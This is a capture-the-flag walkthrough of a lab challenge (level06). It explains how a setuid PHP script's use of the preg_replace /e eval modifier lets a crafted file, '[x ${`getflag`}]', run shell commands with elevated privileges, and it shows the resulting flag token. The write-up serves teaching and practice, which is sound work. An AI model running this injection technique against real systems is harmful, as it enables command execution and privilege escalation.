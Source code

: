In the home directory, there exists a .php file named level06.php, which serves as the source code for the program level06.
The program level06 has setuid bits, denoted as:

```bash
-rwsr-x---+ 1 flag06 level06 7503 Aug 30 2015 level06
```

This signifies that the program is always executed with the privileges of the user flag06.

The content of level06.php is as follows:

```php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

The PHP script utilizes the function x() with user-supplied arguments:

```php
x($argv[1], $argv[2]);
```

It then opens the file path specified in the first argument:

```php
$a = file_get_contents($y);
```

Finally, it captures the pattern /[x (.*)]/ and executes what was captured using the eval regex modifier `(/e)`:

```php
preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

To exploit this, we need to create a file and provide its path as an argument.
Using the backtick (PHP execution operator) around the command `getflag`, we initially create the file as:

```
[x `getflag`]
```

However, due to PHP string analysis, this won't work as intended because the matched string "`getflag`" won't be interpreted. Instead, we must use the complex syntax for the interpretation of complex expressions:

```
[x ${`getflag`}]
```

Executing this with the following command:

```bash
./level06 /tmp/payload
```

Results in an error, but the matched expression is evaluated:

```plaintext
PHP Notice: Undefined variable: Check flag. Here is your token: wiok45aaoguiboiki2tuin6ub
in /home/user/level06/level06.php(4) : regexp code on line 1
```